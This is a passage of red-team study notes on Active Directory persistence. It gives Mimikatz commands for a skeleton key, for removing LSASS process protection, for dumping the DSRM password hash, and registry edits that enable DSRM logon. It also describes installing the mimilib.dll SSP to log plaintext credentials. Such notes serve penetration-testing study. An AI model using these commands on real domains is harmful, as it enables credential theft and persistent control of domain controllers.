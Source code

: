 - password is `mimikatz`, always change this!
- you can then do `Enter-PSSession -ComputerName target.0xd4y_notes.local -Credential examplecorp\Administrator`
    - enter skeleton key password, or legitimate

**********************************************Removal of LSASS Protection**********************************************

If LSASS is a protected process, you must run the following:

```powershell
privilege::debug
!+
!processprotect /process:lsass.exe /remove
misc::skeleton
!-
```

- this would be very noisy in logs

## DSRM

Directory Service Restore Mode (a.k.a SafeModePassword) 

- required when server is promoted to DC
- the local admin’s password on DC is the DSRM password
- persistence length is typically the longest
- with hash of DSRM password, you can perform a PtH attack to access DC
- logon behavior of DSRM account needs to be changed before you can log into it
    - within the DC, do `New-ItemProperty "HKLM:\System\CurrentControlSet\Control\LSA\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD`
        - if this property already exists, do `Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\LSA\" -Name "DsrmAdminLogonBehavior" -Value 2`

************************************Dump DSRM Password************************************

```powershell
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName follow-dc
```

## Custom Security Support Provider (SSP)

- DLL that allows an app to authenticate (e.g. NTLM, Kerberos, Wdigest, CredSSP, etc.)
- Mimikatz has mimilib.dll SSP
    - logs local logons and service accounts and machine passwords on target server in plaintext

### Exploitation

- passwords logged to C:\Windows\system32\kiwissp.log
- perform within the DC

**************************************Method 1**************************************

1. Add mimilib.dll in System32 and to `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages` 
2. Reboot the machine
